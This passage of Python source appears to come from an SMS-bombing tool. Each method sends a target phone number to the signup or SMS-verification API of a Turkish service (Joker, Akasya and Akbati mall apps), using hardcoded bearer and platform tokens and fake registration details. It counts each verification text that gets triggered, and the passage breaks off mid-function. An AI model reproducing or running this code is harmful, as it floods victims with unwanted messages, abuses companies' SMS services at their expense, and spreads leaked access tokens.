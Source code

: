 
    #joker.com.tr
    def Joker(self):
        try:
            url = "https://api.joker.com.tr:443/api/register"
            headers = {"Accept": "*/*", "Content-Type": "application/json", "Authorization": "Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJpYXQiOjE2OTA3MTY1MjEsImV4cCI6MTY5NTkwMDUyMSwidXNlcm5hbWUiOiJHVUVTVDE2OTA3MTY1MjEzMzA3MzdAam9rZXIuY29tLnRyIiwiZ3Vlc3QiOnRydWV9.TaQA8ZDtmU09eFqOFATS8ubXM4BHPQL_BcgeEoqZfuNZcfjfL_xzqRO7fZehzWzEdjHXNXeCUTdjx76EyVB-b3TFuL3OahmrbeaOICD8MXchhMDv78TFhWzOJ9Ad-Mma6QPScSSVL0pYoQHWRhzaeOkmVeypqYiQKGmOEk9NzfOVxDYPa25iJmetiab1Z_b95Hqt5Cls52V7g4pGWmbjYB3gyeUQn5II6neKN174txp1yaGdrNPYwAk_aRJzoAMA1SisZm4rhjdE_9MeyGwjbgk2obPxEVcwvPPwkd56_a34aDOeo6rAvngGALBPWlS89nfHFb6PU2fKyK7jTaVlC0DiVnojlkC_KzoHcptM7SjQBym4Bn9CXZ4kj2J1Om-dhDymQynSCfmQ3JZQd7n1YdQYYMuAoTbjghZhyPu2SCtlI7ao6JhUUcmtO3fjIiyYgAdgD-FDcqSGAs9i5fn3kCidSku5M4ljq1ovJM4BeaNeQdFXqE_WqurpOeLA95fNumGCoXvJGlLhS5VzMdFT-l3cfdPt0V0WmtjJDRpTnosjgfizx4F5qftlVuF98uoFoexg7lQYHyZ-j455-d5B24_WfU8GCjQhtlDVtSTcMiRvUKEjJ-Glm5syv5VVbR7mJxu64SB2J2dPbHcIk6BQuFYXIJklN7GXxDa8mSnEZds", "Accept-Encoding": "gzip, deflate", "User-Agent": "Joker/4.0.14 (com.joker.app; build:2; iOS 15.7.7) Alamofire/5.4.3", "Accept-Language": "en-TR;q=1.0, tr-TR;q=0.9", "Connection": "close"}
            json={"firstName": "Memati", "gender": "m", "iosVersion": "4.0.2", "lastName": "Bas", "os": "IOS", "password": "31ABC..abc31", "phoneNumber": f"0{self.phone}", "username": self.mail}
            r = requests.post(url, headers=headers, json=json, timeout=6)
            if r.json()["message"] == "Doğrulama kodu gönderildi.":
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> api.joker.com.tr")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> api.joker.com.tr")
            
        
    #ak-asya.com.tr
    def Akasya(self):
        try:
            url = "https://akasya-admin.poilabs.com:443/v1/tr/sms"
            headers = {"Accept": "*/*", "Content-Type": "application/json", "X-Platform-Token": "9f493307-d252-4053-8c96-62e7c90271f5", "User-Agent": "Akasya", "Accept-Language": "tr-TR;q=1.0, en-TR;q=0.9", "Accept-Encoding": "gzip, deflate, br"}
            json={"phone": self.phone}
            r = requests.post(url=url, headers=headers, json=json, timeout=6)
            if r.json()["result"] == "SMS sended succesfully!":
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> akasya-admin.poilabs.com")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> akasya-admin.poilabs.com")
        
        
    #akbati.com
    def Akbati(self):
        try:
            url = "https://akbati-admin.poilabs.com:443/v1/tr/sms"
            headers = {"Accept": "*/*", "Content-Type": "application/json", "X-Platform-Token": "a2fe21af-b575-4cd7-ad9d-081177c239a3", "User-Agent": "Akbat", "Accept-Language": "tr-TR;q=1.0, en-TR;q=0.9", "Accept-Encoding": "gzip, deflate, br"}
            json={"phone": self.phone}
            r = requests.post(url=url, headers=headers, json=json, timeout=6)
            if r.json()["result"] == "SMS sended succesfully!":
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> akbati-admin.poilabs.com")
                self.adet += 1
            else:
                raise
        except: